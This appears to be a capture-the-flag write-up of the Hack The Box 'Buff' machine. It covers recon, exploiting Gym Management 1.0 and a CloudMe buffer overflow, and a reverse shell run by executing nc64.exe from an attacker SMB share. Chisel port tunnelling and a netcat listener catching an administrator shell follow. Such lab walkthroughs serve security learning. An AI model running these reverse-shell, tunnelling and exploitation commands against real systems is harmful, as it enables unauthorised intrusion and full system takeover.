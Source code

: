 ![image](https://user-images.githubusercontent.com/105310322/196471216-474e621b-00c3-4a90-8d50-55ead69fd885.png)


### Tools: Feroxbuster, exploit.db

### Vulnerabilities: Gym Management Service, Buffer Overflow: CloudMe.exe

Nmap shows 1 port open on port 8080 which is a webpage we can visit.

```
└─$ nmap -A -p- -T4 -Pn 10.129.2.18
Starting Nmap 7.93 ( https://nmap.org ) at 2022-10-17 15:56 CDT
Nmap scan report for Buff.htb (10.129.2.18)
Host is up (0.14s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: mrb3n's Bro Hut
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 505.48 seconds
```
A quick feroxbuster shows that their is an upload page and a logout page. Which means there is somewhere to login too.

```console
└─$ feroxbuster -u http://Buff.htb:8080/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -x php,html,txt,git,pdf -q
301      GET        9l       30w      337c http://buff.htb:8080/include => http://buff.htb:8080/include/
301      GET        9l       30w      333c http://buff.htb:8080/img => http://buff.htb:8080/img/
200      GET      133l      308w     4969c http://buff.htb:8080/
302      GET        0l        0w        0c http://buff.htb:8080/include/logout.php => ../index.php
403      GET       42l       97w        0c http://buff.htb:8080/.html
200      GET        4l       20w      137c http://buff.htb:8080/register.php
301      GET        9l       30w      336c http://buff.htb:8080/upload => http://buff.htb:8080/upload/
200      GET      118l      265w     4169c http://buff.htb:8080/contact.php
200      GET        2l       12w      107c http://buff.htb:8080/upload.php
200      GET        2l       18w      143c http://buff.htb:8080/home.php
200      GET      141l      433w     5337c http://buff.htb:8080/about.php
403      GET       42l       97w        0c http://buff.htb:8080/webalizer
301      GET        9l       30w      337c http://buff.htb:8080/profile => http://buff.htb:8080/profile/
200      GET      133l      308w     4969c http://buff.htb:8080/index.php
403      GET       45l      113w        0c http://buff.htb:8080/phpmyadmin
301      GET        9l       30w      344c http://buff.htb:8080/profile/upload => http://buff.htb:8080/profile/upload/
200      GET        0l        0w        0c http://buff.htb:8080/include/functions.php
200      GET      121l      278w     4282c http://buff.htb:8080/edit.php
200      GET        2l       14w      132c http://buff.htb:8080/profile/index.php
200      GET      113l      268w     4252c http://buff.htb:8080/feedback.php
200      GET      168l      486w     7791c http://buff.htb:8080/packages.php
```


After checking out the website just a bit we can see that it is running Gym Management Service 1.0. A quick google search gives us an exploit we can run.

https://www.exploit-db.com/exploits/48506

After running the exploit we quickly gain access to the shaun user and nab the first flag.

```console
C:\xampp\htdocs\gym\upload> whoami
�PNG
�
buff\shaun
```

```console
C:\xampp\htdocs\gym\upload> type c:\users\shaun\Desktop\user.txt
�PNG
�
306d****************************
********************************
```

Since this shell sucks I went back and created a reverse shell.

Set up your smbshare.

```console
└─$ sudo impacket-smbserver rogue . -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Then I ran the exploit again and executed my reverse shell without copying any files.

Note: This is a pretty cool trick I learned and makes things a little faster and easier if you are running into issues with getting files on the victim.

```console
└─$ python2.7 48506.py http://buff.htb:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> \\10.10.16.16\rogue\nc64.exe -e cmd.exe 10.10.16.16 1234
```

By checking through Shaun's files we see an interesting binary.

```console
PS C:\Users\shaun\Downloads> ls
ls


    Directory: C:\Users\shaun\Downloads


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       16/06/2020     16:26       17830824 CloudMe_1112.exe  
```


Again I am going to run winpeas without transferring it to the victim.

On host

```console
└─$ sudo impacket-smbserver rogue . -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
```

On victim

```console
PS C:\users\shaun\Downloads> \\10.10.16.16\rogue\winPEASx64.exe
```
Linpeas shows the running processes and also tells us that the CloudMe service is being ran on localhost port 8888

```console
����������͹ Current TCP Listening Ports
� Check for services restricted from the outside 
  Enumerating IPv4 connections
                                                                                                                               
  Protocol   Local Address         Local Port    Remote Address        Remote Port     State             Process ID      Process Name

  TCP        0.0.0.0               135           0.0.0.0               0               Listening         952             svchost
  TCP        0.0.0.0               445           0.0.0.0               0               Listening         4               System
  TCP        0.0.0.0               5040          0.0.0.0               0               Listening         5816            svchost
  TCP        0.0.0.0               7680          0.0.0.0               0               Listening         1072            svchost
  TCP        0.0.0.0               8080          0.0.0.0               0               Listening         8596            C:\xampp\apache\bin\httpd.exe
  TCP        0.0.0.0               49664         0.0.0.0               0               Listening         516             wininit
  TCP        0.0.0.0               49665         0.0.0.0               0               Listening         1044            svchost
  TCP        0.0.0.0               49666         0.0.0.0               0               Listening         1580            svchost
  TCP        0.0.0.0               49667         0.0.0.0               0               Listening         2252            spoolsv
  TCP        0.0.0.0               49668         0.0.0.0               0               Listening         668             services
  TCP        0.0.0.0               49669         0.0.0.0               0               Listening         688             lsass
  TCP        10.129.2.18           139           0.0.0.0               0               Listening         4               System
  TCP        10.129.2.18           8080          10.10.16.16           42504           Close Wait        8596            C:\xampp\apache\bin\httpd.exe
  TCP        10.129.2.18           8080          10.10.16.16           55280           Established       8596            C:\xampp\apache\bin\httpd.exe
  TCP        10.129.2.18           49847         10.10.16.16           445             Established       4               System
  TCP        10.129.2.18           49848         10.10.16.16           1235            Established       6832            \\10.10.16.16\rogue\nc64.exe
  TCP        127.0.0.1             3306          0.0.0.0               0               Listening         8628            C:\xampp\mysql\bin\mysqld.exe
  TCP        127.0.0.1             8888          0.0.0.0               0               Listening         4280            CloudMe
```
This PoC should do the job pretty quickly.

https://www.exploit-db.com/exploits/48389

```console
└─$ sudo impacket-smbserver rogue . -smb2support
[sudo] password for npayne: 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
```console
c:\Users\Public>copy \\10.10.16.16\rogue\chiselwin.exe chiselwin.exe
copy \\10.10.16.16\rogue\chiselwin.exe chiselwin.exe
        1 file(s) copied.
```

```console
└─$ chisel server --reverse --port 1234
2022/10/18 14:18:24 server: Reverse tunnelling enabled
2022/10/18 14:18:24 server: Fingerprint RZQ9LOlLjBYeVcnA6fq7Fi90YADFsXsI+giE5JxJZp8=
2022/10/18 14:18:24 server: Listening on http://0.0.0.0:1234
2022/10/18 14:18:49 server: session#1: Client version (1.7.7) differs from server version (0.0.0-src)
2022/10/18 14:18:49 server: session#1: tun: proxy#R:8888=>8888: Listening
```
```console
c:\Users\Public>chiselwin.exe client 10.10.16.16:1234 R:8888:127.0.0.1:8888
chiselwin.exe client 10.10.16.16:1234 R:8888:127.0.0.1:8888
2022/10/18 20:18:48 client: Connecting to ws://10.10.16.16:1234
2022/10/18 20:18:48 client: Connected (Latency 31.6057ms)
```

```console
└─$ nc -lvnp 5555
listening on [any] 443 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.7.44] 49680
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>whoami
whoami
buff\administrator
```
```console
C:\users\administrator\Desktop> type root.txt
type root.txt
c2a8****************************
```
